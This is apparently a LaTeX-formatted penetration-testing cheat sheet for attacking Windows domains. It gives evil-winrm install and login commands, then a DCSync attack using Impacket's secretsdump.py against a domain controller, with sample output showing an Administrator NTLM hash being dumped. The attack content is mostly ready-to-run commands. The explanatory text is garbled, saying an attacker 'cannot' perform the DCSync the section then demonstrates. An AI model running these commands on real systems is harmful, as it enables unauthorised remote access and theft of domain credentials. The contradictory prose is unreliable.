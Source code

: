 \documentclass{assets/ipesethesis}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ExtensionTok}[1]{#1}
\newcommand{\FunctionTok}[1]{\textcolor[rgb]{0.00,0.00,0.00}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\begin{document}
\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Install evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ gem install evil-winrm}
\end{Highlighting}
\end{Shaded}
\item
  Connect with evil-winrm

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -i 10.10.10.10 -u }\StringTok{'username'}\NormalTok{ -p }\StringTok{'Password1234'}
\end{Highlighting}
\end{Shaded}
\item
  Connect by ssl

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{evil-winrm}\NormalTok{ -S -c certnew.cer -k private.key -i 10.10.10.10 -u }\StringTok{'username'}\NormalTok{ -p }\StringTok{'Password1234'}
\end{Highlighting}
\end{Shaded}
\end{enumerate}

\hypertarget{exploit-getchangesall-privilege-vulnerability}{%
\section*{Exploit GetChangesAll privilege vulnerability}\label{exploit-getchangesall-privilege-vulnerability}}

The \textbf{GetChangesAll} privilege can be considert as a vunlnerability when you have the credentials of this user, because attacker cannot
perform a DCSync attack in order to dump the NTLM of all domain users.
You can check if user have this privilege with a tool like \textbf{Bloodhound}.

To perform this kind of attack you can use the \textbf{secretsdump.py} script who comes with te Impacket library

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{locate}\NormalTok{ secretsdump}
\ExtensionTok{secretsdump.py}\NormalTok{ -dc-ip 10.10.10.10 DOMAIN.NAME/user:Password1234@10.10.10.10}

\CommentTok{#OUTPUT}
\NormalTok{[}\ExtensionTok{-}\NormalTok{] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied }
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Dumping Domain Credentials (domain\textbackslash{}uid:rid:lmhash:nthash)}
\NormalTok{[}\ExtensionTok{*}\NormalTok{] Using the DRSUAPI method to get NTDS.DIT secrets}
\ExtensionTok{Administrator}\NormalTok{:500:aad3b435b51404eeaad3b435b51404ee:8a4b77d52b1845bfe949ed1b9643bb18:::}
\end{Highlighting}
\end{Shaded}
\end{document}
